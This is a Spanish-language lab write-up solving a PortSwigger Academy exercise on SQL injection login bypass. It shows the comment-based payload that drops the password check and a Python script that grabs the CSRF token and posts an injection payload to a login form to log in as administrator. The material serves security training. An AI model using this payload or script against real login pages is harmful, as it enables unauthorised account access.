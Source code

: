 ```yaml
---
title: "02 Write-up: SQL injection vulnerability allowing login bypass"
collection: publications
category: portswigger
permalink: /publications/02_SQL_injection_vulnerability_allowing_login_bypass
excerpt: 'Este laboratorio contiene una vulnerabilidad de inyección SQL en la función de inicio de sesión. Para resolver el laboratorio, realizamos un ataque de inyección SQL que elude la autenticación y nos permite iniciar sesión en la aplicación como usuario administrador.'
date: 2024-12-01
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'SQL injection vulnerability allowing login bypass'
---
```


![logo]({{site.url}}/images/SQLi/sqli-2/logo.png)

Lab-Link: <https://portswigger.net/web-security/sql-injection/lab-login-bypass>  
Dificultad: APPRENTICE  

## Descripción del laboratorio

![Descripción]({{site.url}}/images/SQLi/sqli-2/descripcion.png)

## Analisis del entorno
Insertamos la comilla simple `'` en el campo de usuario y en el campo de password `password`. 

![Pruebas]({{site.url}}/images/SQLi/sqli-2/Prueba_1.png)

La consulta utilizada en el laboratorio tendrá un aspecto similar a:

```sql
SELECT * FROM users WHERE username = ''' AND password = 'password'
```

El backend trata de realizar la consulta previamente resalizada y nos arroja un error ya que es un error de sintaxis.

![Error]({{site.url}}/images/SQLi/sqli-2/error.png)

Necesitamos acomodar esta consulta para que pueda funcionar. Vamos a realizar la consulta para un usuario y comentamos la demas sentencia, quedaria algo asi:

```sql
SELECT * FROM users WHERE username = 'admin' -- ' AND password = 'password'
```

![Login_1]({{site.url}}/images/SQLi/sqli-2/login_1.png)

Si el usuario `admin` no existe nos arrojara un error y se muestra en pantalla, toca ingresar un usuario valido.

![Error_2]({{site.url}}/images/SQLi/sqli-2/error 2.png)

Probamos con un usuario valido y vemos que nos hace la redirección y solventa el laboratorio

![Login_2]({{site.url}}/images/SQLi/sqli-2/login_2.png)

Lo que envia Burpsuite es en url encode:

![Envio de dato]({{site.url}}/images/SQLi/sqli-2/Respuesta desde Burpsuite.png)

Aprobado el laboratorio

![Aprobado]({{site.url}}/images/SQLi/sqli-2/aprobado.png)

# Codigo Python
```python
import requests
import sys
import urllib3
from bs4 import BeautifulSoup
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def get_csrf_token(s, url):
    r = s.get(url, verify=False, proxies=proxies)
    soup = BeautifulSoup(r.text, 'html.parser')
    csrf = soup.find("input")['value']
    print(csrf)
    return csrf

def exploit_sqli(s, url, payload):
    csrf = get_csrf_token(s, url)
    data = {"csrf":csrf,
            "username": payload,
            "password": "randomtext"
            }
    r = s.post(url, data=data, verify=False, proxies=proxies)
    res = r.text
    if "Log out" in res:
        return True
    else:
        return False


if __name__ == '__main__':
    try:
        url = sys.argv[1].strip()
        sqli_payload =  sys.argv[2].strip()
    except IndexError:
        print("[-] Usage: %s <url> <payload>" % sys.argv[0])
        print('[-] Example: %s www.example.com "1=1"' % sys.argv[0])

    s = requests.Session()

    if exploit_sqli(s, url, sqli_payload):
        print('[+] SQL injection succesfull! We have logged in as the administrator user.')
    else:
        print('[-] SQL injection unsuccesful.')
```